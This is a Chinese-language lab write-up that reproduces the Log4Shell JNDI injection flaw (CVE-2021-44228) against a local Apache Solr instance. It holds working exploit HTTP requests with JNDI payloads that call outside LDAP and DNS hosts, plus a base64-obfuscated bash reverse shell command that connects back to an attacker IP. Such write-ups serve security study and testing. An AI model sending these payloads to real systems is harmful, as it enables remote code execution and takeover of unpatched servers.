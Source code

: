 # Apache Log4j2 lookup JNDI 注入漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

CVE-2021-44228常被称为`log4shell`。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

Payloads：

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md

## 环境搭建

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

Vulhub执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:ldap://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

![image-20220305220532335](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052205527.png)

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![image-20220305220601719](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052206769.png)

实际利用JNDI注入漏洞，可以使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit)。

![image-20220305223436251](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052234596.png)

利用完毕后，可见`touch /tmp/awesome_poc`已经成功被执行：

![image-20220305223503054](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052235135.png)

### 反弹shell

构造反弹shell命令：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}
```

![image-20220305223522125](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052235402.png)

构造Payload：

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.174.128:1389/chof5b} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

监听9999端口，接收反弹shell：

![image-20220305223552171](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203052235323.png)